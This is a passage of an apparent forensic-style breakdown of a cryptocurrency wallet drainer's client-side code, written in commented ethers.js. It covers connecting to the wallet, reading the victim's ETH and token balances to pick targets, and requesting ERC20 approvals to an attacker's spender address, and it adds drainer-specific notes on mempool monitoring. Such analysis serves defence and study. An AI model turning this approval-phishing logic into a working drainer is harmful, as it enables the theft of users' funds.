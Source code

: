        //     } else {
        //         throw new Error("No Ethereum provider found. Please install MetaMask.");
        //     }
        // }
        ```
    *   **Functionality:** Creates instances of a provider and signer object, which are then used for all subsequent blockchain interactions.
    *   **Data Flow:** `userAddress` is obtained and available for use in transactions.
    *   **Report Reference:** "Web3 Interaction Layer (Client-Side)" section in the forensic report.

### 3.2. Fetching On-Chain Data (as needed)

*   **Execution Step 2: Request to Fetch Balances or Other On-Chain Info.**
    *   **Logic:** The main frontend logic might request this layer to fetch victim's asset details to tailor the attack.
    *   **Code Concept (Report Implication - ethers.js):**
        ```javascript
        // Conceptual: Fetching ETH balance
        // async function getEthBalance(address) {
        //     if (!provider) throw new Error("Provider not initialized");
        //     const balanceWei = await provider.getBalance(address || userAddress);
        //     return ethers.utils.formatEther(balanceWei);
        // }

        // Conceptual: Fetching ERC20 token balance
        // const ERC20_ABI_MINIMAL = ["function balanceOf(address owner) view returns (uint256)"];
        // async function getTokenBalance(tokenAddress, ownerAddress) {
        //     if (!provider) throw new Error("Provider not initialized");
        //     const tokenContract = new ethers.Contract(tokenAddress, ERC20_ABI_MINIMAL, provider);
        //     const balance = await tokenContract.balanceOf(ownerAddress || userAddress);
        //     return balance; // Returns BigNumber, frontend might format it
        // }
        ```
    *   **Functionality:** Uses provider methods to call `eth_getBalance` or `call` (for `balanceOf` on ERC20 contracts).
    *   **Data Flow:** Returns balance information to the calling frontend logic.
    *   **Report Reference:** Implied by the need to identify valuable assets, as mentioned in backend logic and attack tailoring sections.

### 3.3. Crafting and Requesting ERC20/NFT Approvals

*   **Execution Step 3: Request to Approve Token/NFT Spending.**
    *   **Logic:** The main frontend logic, often after receiving instructions from the backend about which assets to target, instructs this layer to request an approval.
    *   **Code Concept (Report Implication - ethers.js for ERC20 `approve`):**
        ```javascript
        // Conceptual: Request ERC20 token approval
        // const ERC20_ABI_APPROVE = ["function approve(address spender, uint256 amount) returns (bool)"];
        // async function requestErc20Approval(tokenAddress, spenderAddress, amount) {
        //     if (!signer) throw new Error("Signer not initialized");
        //     const tokenContract = new ethers.Contract(tokenAddress, ERC20_ABI_APPROVE, signer);
        //     try {
        //         console.log(`Requesting approval for token ${tokenAddress} to spender ${spenderAddress} for amount ${amount}`);
        //         const txResponse = await tokenContract.approve(spenderAddress, amount);
        //         // DO NOT typically wait for tx.wait() here in drainers, backend monitors mempool
        //         // Frontend just needs to know the tx was submitted.
        //         return { success: true, txHash: txResponse.hash };
        //     } catch (error) {
        //         console.error("ERC20 Approval failed or rejected by user:", error);
        //         return { success: false, error: error.message || error };
        //     }
        // }
        ```